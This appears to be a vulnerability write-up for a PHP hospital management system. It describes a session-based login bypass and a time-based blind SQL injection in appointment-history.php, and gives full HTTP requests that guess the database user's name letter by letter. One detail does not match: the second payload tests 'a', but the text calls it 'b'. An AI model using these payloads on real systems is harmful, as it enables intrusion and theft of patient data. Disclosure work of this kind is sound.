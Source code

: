 If the user enters the wrong username and password, line 26 assigns the username submitted by the user to $_SESSION['login'].

So as long as you first visit /hms/user-login.php and try to log in to an account, $_SESSION['login'] will not  be empty, you can bypass the check of the check_login function and achieve privilege elevation.

Back in \hms\appointment-history.php, line 9 gets the id value of the GET variable directly into the database query and causes SQL injection.

The following SQL injection statement can be used to get the first letter of the current database user(root) as 'r':
```
GET /hms/appointment-history.php?cancel=1&id=3'/**/and/**/if(substring((select/**/user()/**/limit/**/0,1),1,1)='r',sleep(5),1)%23  HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

```
The first letter of the current database user(root) obtained through SQL injection is 'r', and the query result is correct, so the request is delayed about 5 seconds:

![21.png](./img/21.png)

If you query the following statement:
```
GET /hms/appointment-history.php?cancel=1&id=3'/**/and/**/if(substring((select/**/user()/**/limit/**/0,1),1,1)='a',sleep(5),1)%23  HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

```
Through SQL injection to guess the first letter of the current database user(root) is 'b', the query result is wrong, so the request will not be delayed for 5 seconds:
